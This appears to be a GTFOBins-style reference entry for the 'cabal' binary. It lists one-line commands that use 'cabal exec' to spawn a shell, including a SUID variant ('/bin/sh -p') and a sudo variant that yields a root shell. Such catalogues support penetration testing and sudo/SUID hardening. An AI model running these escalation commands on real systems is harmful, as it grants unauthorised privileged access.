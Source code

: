 ```yaml
---
functions:
  shell:
    - code: cabal exec -- /bin/sh
  limited-suid:
    - code: ./cabal exec -- /bin/sh -p
  sudo:
    - code: sudo cabal exec -- /bin/sh
---
```

